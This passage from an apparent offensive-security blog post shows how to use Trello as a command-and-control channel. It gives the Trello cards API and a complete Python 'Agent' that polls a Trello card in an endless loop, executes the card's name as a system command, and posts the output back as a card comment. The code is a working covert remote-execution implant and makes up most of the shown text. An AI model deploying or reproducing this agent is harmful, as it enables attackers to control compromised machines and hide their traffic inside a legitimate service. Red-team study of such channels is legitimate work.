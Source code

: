 From there we can get the cards using the following API:
[https://api.trello.com/1/lists/id/cards?key=key&token=token](https://api.trello.com/1/lists/id/cards?key=key&token=token)
### Agent
```python
import requests
import json
import subprocess

API_KEY = "REDACTED"
TOKEN = "REDACTED"
CARD_ID = "REDACTED"

def Exec(cmd):
    output = subprocess.check_output(cmd, shell=False)
    return output

while True:
    card_url = f"https://api.trello.com/1/cards/{CARD_ID}"
    comment_url = f"https://api.trello.com/1/cards/{CARD_ID}/actions/comments"
    headers = {
    "Accept": "application/json"
    }
    query = {
    'key': API_KEY,
    'token': TOKEN
    }
    response = requests.request(
    "GET",
    card_url,
    headers=headers,
    params=query
    )
    response_json = response.json()
    if response_json.get('name') == "nothing":
        continue

    output = Exec(response_json.get('name')).decode()
    data = {
        "text":output
    }
    requests.post(comment_url,params=query,headers=headers,data=data)
    requests.put(card_url,params=query,headers=headers,data={"name":"nothing"})
```
Here we make use of the card ID we got earlier. Then we use the corresponding API to get the name of the card and if it's not set to `nothing`:

![trello](/assets/img/posts/2025-02-23-c2-all-the-things/trello-2.png)

